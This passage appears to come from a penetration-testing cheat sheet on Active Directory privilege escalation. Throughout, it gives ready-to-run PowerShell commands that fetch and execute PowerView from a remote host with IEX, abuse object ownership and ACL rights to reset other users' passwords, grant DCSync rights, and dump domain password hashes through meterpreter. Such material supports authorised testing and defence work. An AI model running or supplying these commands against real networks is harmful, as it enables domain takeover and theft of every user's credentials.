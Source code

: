 ### Enumerate GPO's

{% code overflow="wrap" %}
```powershell
"{7EA15487-7F5B-4CE3-C029-CEBE6FFE6D47}" | Get-DomainGPO
```
{% endcode %}

### Reset Domain User Password

If you own the owner of another AD user object (`WriteOwner`, `WriteDACL`, `GenericWrite`, `Owner`, etc), you can reset the password with ease:

{% code overflow="wrap" %}
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')
$user = 'DOMAIN\owner_acct';
$pass= ConvertTo-SecureString 'Password123!' -AsPlainText -Force;
$creds = New-Object System.Management.Automation.PSCredential $user, $pass;
$newpass = ConvertTo-SecureString 'burmatw@sh3r3' -AsPlainText -Force;
Set-DomainUserPassword -Identity 'DOMAIN\vuln_user' -AccountPassword $newpass -Credential $creds;
```
{% endcode %}

Or if you can set yourself as owner, the following will do:

{% code overflow="wrap" %}
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')
Set-DomainObjectOwner -Identity it_admin -OwnerIdentity burmat
Add-DomainObjectAcl -TargetIdentity it_admin -PrincipalIdentity burmat
$newpass = ConvertTo-SecureString -String 'burmat123$' -AsPlainText -Force
Set-DomainUserPassword -Identity it_admin -AccountPassword $newpass
```
{% endcode %}

Or you can do it using Impacket's "smbpasswd.py", as shown below.

### Add/Exploit DCSync Rights

Do you have `WriteDACL` to a domain? Give DCSync rights to an unprivileged domain user account:

{% code overflow="wrap" %}
```powershell
Add-DomainObjectAcl -TargetIdentity "DC=burmat,DC=local" -PrincipalIdentity jsmith -Rights DCSync
```
{% endcode %}

And use these rights to dump the hashes from the domain:

{% code overflow="wrap" %}
```
meterpreter > dcsync_ntlm burmat.local\\jsmith
```
{% endcode %}

## IMPACKET
